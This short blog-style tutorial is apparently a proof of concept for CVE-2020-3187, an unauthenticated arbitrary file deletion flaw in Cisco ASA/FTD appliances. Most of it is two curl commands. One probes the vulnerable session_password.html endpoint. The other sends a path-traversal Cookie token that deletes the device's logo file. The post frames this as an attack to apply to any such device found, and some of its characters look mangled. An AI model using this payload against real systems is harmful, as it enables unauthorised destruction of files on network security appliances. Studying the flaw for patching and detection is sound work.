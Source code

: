 ```yaml
---
title: POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD
author: Elsfa7-110
categories: [Tutorial]
tags: [CVE]
pin: true
---
```



## If you found Cisco ASA / FTD
Well let's apply CVE-2020-3187 - Unauthenticated Arbitrary File Deletion

Vulnerable Endpoint

go to
https://host/+CSCOE+/session_password.html

  curl -k -s -i https://hotst/+CSCOE+/session_password.html

to delete logo file "/+CSCOU+/csco_logo.gif".

  curl -k -H "Cookie: token = .. / + CSCOU + / csco_logo.gif" https://host/+CSCOE+/session_password.html
